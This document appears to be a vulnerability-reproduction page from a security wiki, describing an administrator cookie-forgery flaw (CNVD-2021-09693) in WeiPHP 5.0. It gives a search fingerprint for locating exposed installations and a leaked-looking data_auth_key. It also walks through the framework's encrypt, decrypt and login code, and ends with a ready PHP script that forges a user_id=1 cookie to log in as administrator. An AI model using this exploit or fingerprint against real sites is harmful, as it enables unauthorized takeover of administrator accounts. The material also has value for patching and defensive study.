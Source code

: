 # WeiPHP5.0 Cookie forgery for any user CNVD-2021-09693

## Vulnerability Description

Weiphp5.0 There is a fake cookie for administrator user. Through the leaked key data, the administrator's cookie can be obtained by using encryption methods.

## Affect Version

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Weiphp <= 5.0</span>

## Environment construction

[Weiphp5.0 official download reference manual](https://www.weiphp.cn/doc/Initialization_database.html)

Just refer to the official manual to create a website

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/weiphp-1.png)



## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="WeiPHP"</span>



## Vulnerability reappears

First, you need to get the `data_auth_key` key in the database configuration file

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/weiphp-15.png)



To get this configuration file, you can refer to the previous article `Weiphp5.0 front desk file arbitrarily read`



```plain
'data_auth_key' => '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T'
```



Find the places where this key is used globally



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/weiphp-16.png)



Found the encryption method and decryption method according to this key



`Encrypt method think_encrypt`



```php
function think_encrypt($data, $key = '', $expire = 0)
{
    $key = md5(empty($key) ? config('database.data_auth_key') : $key);

    $data = base64_encode($data);
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    $str = sprintf('%010d', $expire ? $expire + time() : 0);

    for ($i = 0; $i < $len; $i++) {
        $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
    }
    return str_replace(array(
        '+',
        '/',
        '='
    ), array(
        '-',
        '_',
        ''
    ), base64_encode($str));
}
```



`Decrypt method think_decrypt



```php
function think_decrypt($data, $key = '')
{
    $key = md5(empty($key) ? config('database.data_auth_key') : $key);
    $data = str_replace(array(
        '-',
        '_'
    ), array(
        '+',
        '/'
    ), $data);
    $mod4 = strlen($data) % 4;
    if ($mod4) {
        $data .= substr('====', $mod4);
    }
    $data = base64_decode($data);
    $expire = substr($data, 0, 10);
    $data = substr($data, 10);

    if ($expire > 0 && $expire < time()) {
        return '';
    }
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = $str = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    for ($i = 0; $i < $len; $i++) {
        if (ord(substr($data, $i, 1)) < ord(substr($char, $i, 1))) {
            $str .= chr((ord(substr($data, $i, 1)) + 256) - ord(substr($char, $i, 1)));
        } else {
            $str .= chr(ord(substr($data, $i, 1)) - ord(substr($char, $i, 1)));
        }
    }
    return base64_decode($str);
}
```



View the locations using the decryption method globally



The file `application\common.php` contains code using the decryption method, used for authentication



```php
function is_login()
{
    $user = session('user_auth');
    if (empty($user)) {
        $cookie_uid = cookie('user_id');
        if (!empty($cookie_uid)) {
            $uid = think_decrypt($cookie_uid);
            $userinfo = getUserInfo($uid);
            D('common/User')->autoLogin($userinfo);

            $user = session('user_auth');
        }
    }
    if (empty($user)) {
        return 0;
    } else {
        return session('user_auth_sign') == data_auth_sign($user) ? $user['uid'] : 0;
    }
}
```



According to the code obtained here, you can know that when `user_Id=1`, the key will be decrypted and the determination will be correct. If it is correct, you can log in to the system



We can log in to the system by encrypting the `user_id=1` locally using the encryption code to encrypt the cookie `user_id=1`.



```php
<?php
show_source(__FILE__);
function think_encrypt($data, $key = '', $expire = 0)
{
    $key = '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T';
    $key = md5($key);

    $data = base64_encode($data);
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    $str = sprintf('%010d', $expire ? $expire + time() : 0);

    for ($i = 0; $i < $len; $i++) {
        $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
    }
    return str_replace(array(
        '+',
        '/',
        '='
    ), array(
        '-',
        '_',
        ''
    ), base64_encode($str));
}

echo 'user_id = ' . think_encrypt($_GET['user_id']);
?>
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/weiphp-17.png)



Add `cookie: user_id=xxxxxxxxx` to log in successfully



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/weiphp-18.png)



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/weiphp-19.png)
